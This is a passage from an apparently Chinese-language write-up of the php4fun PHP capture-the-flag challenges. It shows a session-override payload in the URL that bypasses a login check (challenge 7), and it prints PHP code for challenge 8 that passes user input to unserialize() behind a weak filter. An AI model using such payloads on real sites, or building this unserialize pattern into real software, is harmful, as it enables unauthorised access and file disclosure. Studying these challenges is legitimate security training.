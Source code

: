 ```
}
echo $aff;

```

### 攻略：

get the key from $hidden_password[207] 这句有点模糊，下面的‘所以’可以得到 key（绕过 REQUEST 对数组的判断）

### 所以：

```
http://php4fun.sinaapp.com/c7/index.php?_SESSION[logged]=1
POST: _SESSION=1 
```

## challenge 8

* * *

php code：

```
#GOAL: file_get_content('sbztz.php')    : )

    class just4fun {
        public $filename;

        function __toString() {
            return @file_get_contents($this->filename);
        }
    }

    $data = stripslashes($_GET['data']);
    if (!$data) {
        die("hello from y");
    }

    $token = $data[0];
    $pass = true; 

    switch ( $token ) {
        case 'a' :
        case 'O' :
        case 'b' :
        case 'i' :
        case 'd' :
            $pass = ! (bool) preg_match( "/^{$token}:[0-9]+:/s", $data );
            break;

        default:
            $pass = false;

    }

    if (!$pass) {
      die("TKS L.N.");
    }

    echo unserialize($data); 

```

